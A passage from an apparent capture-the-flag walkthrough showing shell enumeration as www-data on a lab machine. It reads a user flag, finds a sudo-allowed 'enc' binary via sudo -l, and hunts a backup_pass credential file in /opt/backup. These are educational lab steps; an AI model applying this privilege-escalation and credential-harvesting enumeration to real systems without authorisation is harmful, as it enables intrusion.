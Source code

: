 drwxr-xr-x 2 root root 4.0K Aug 31 03:15 .
-rw-r--r-- 1 root root   33 Aug 31 03:14 user.txt
-rw------- 1 root root   20 Aug 31 03:08 .bash_history
-rwxr-x--x 1 root root  14K Aug 30 08:48 enc
-rw-r--r-- 1 root root   18 Aug 29 13:59 password.txt
drwxr-xr-x 4 root root 4.0K Aug 29 13:58 ..
www-data@ubuntu:/home/saket$ cat user.txt
cat user.txt
af3c658dcf9d7190da3153519c003456
```

Looks like there is a user.txt flag and a file called enc, which seems to be
executable by anyone.

Further enumeration shows that www-data user can execute enc file with root
privileges.

```
www-data@ubuntu:/home/saket$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /home/saket/enc
www-data@ubuntu:/home/saket$
```

When trying to execute enc the following message is presented:

```www-data@ubuntu:/home/saket$ sudo /home/saket/enc
sudo /home/saket/enc
enter password: password
password
www-data@ubuntu:/home/saket$
```

Enumerating further a backup_pass file is found in /opt/backup/server_database
with credentials for “enc” executable.

```bash
www-data@ubuntu:/home/saket$ ls -laht /opt
ls -laht /opt
total 12K
drwxr-xr-x  3 root root 4.0K Aug 30 09:07 backup
drwxr-xr-x  3 root root 4.0K Aug 30 09:07 .
drwxr-xr-x 24 root root 4.0K Aug 29 10:57 ..
www-data@ubuntu:/home/saket$ cd /opt/backup
cd /opt/backup
www-data@ubuntu:/opt/backup$ ls -laht
ls -laht
total 12K
drwxr-xr-x 2 root root 4.0K Aug 30 09:08 server_database
drwxr-xr-x 3 root root 4.0K Aug 30 09:07 .
drwxr-xr-x 3 root root 4.0K Aug 30 09:07 ..
www-data@ubuntu:/opt/backup$ cd server_database
cd server_database
cat pwww-data@ubuntu:/opt/backup/server_database$ ls -laht
ls -laht
total 12K
drwxr-xr-x 2 root root 4.0K Aug 30 09:08 .
-rw-r--r-- 1 root root   75 Aug 30 09:08 backup_pass
-rw-r--r-- 1 root root    0 Aug 30 09:07 {hello.8}
drwxr-xr-x 3 root root 4.0K Aug 30 09:07 ..
www-data@ubuntu:/opt/backup/server_database$ cat *
```